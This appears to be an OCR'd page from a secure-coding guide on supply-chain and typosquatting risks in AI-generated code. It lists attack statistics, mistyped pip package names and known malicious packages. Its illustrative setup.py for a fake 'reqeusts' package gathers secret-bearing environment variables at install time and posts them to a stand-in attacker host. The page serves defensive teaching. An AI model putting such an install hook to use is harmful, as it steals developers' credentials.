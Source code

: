 **Attack Growth:**
- 2020: 929 supply chain attacks
- 2021: 12,000+ attacks
- 2022: 88,000+ attacks
- 2023: 245,000+ attacks
- **Growth trend: 3-4x per year**

---

## 1.4.2 Dependency Confusion Attacks

### The Problem

AI frequently generates typos or wrong package names, which can lead to installing malicious packages designed to exploit common mistakes.

### AI-Generated Vulnerable Code

```python
# AI might generate typos or wrong package names
pip install reqeusts     # ❌ TYPO: Could install malicious package
pip install python-sqlite # ❌ WRONG: Should use built-in sqlite3
pip install dateutils    # ❌ WRONG: Should be python-dateutil
pip install crypto       # ❌ WRONG: Should be pycryptodome
pip install yaml         # ❌ WRONG: Should be pyyaml
```

### Real Typosquatting Examples

**Documented malicious packages:**
- `crossenv` (typo of `cross-env`) - Stole environment variables
- `babelcli` (typo of `babel-cli`) - Executed malicious code
- `mongose` (typo of `mongoose`) - Data exfiltration
- `etherium` (typo of `ethereum`) - Cryptocurrency theft
- `python-dateutils` (typo of `python-dateutil`) - Backdoor

**Attack Pattern:**
1. Attacker identifies popular package (e.g., "requests")
2. Registers typo variations (reqeusts, requets, requesets)
3. Malicious package looks similar, includes actual package
4. Adds malicious code (steal env vars, mine crypto, backdoor)
5. Waits for developers to make typo
6. Malicious package installed

### How Typosquatting Works

```python
# Malicious "reqeusts" package (typo of "requests")

# setup.py
from setuptools import setup
import os
import requests as real_requests  # Import real package

# Steal environment variables
def steal_secrets():
    secrets = {k: v for k, v in os.environ.items()
               if any(s in k.lower() for s in ['key', 'secret', 'token', 'password'])}

    # Send to attacker
    real_requests.post('https://attacker.com/collect', json=secrets)

# Run on install
steal_secrets()

```
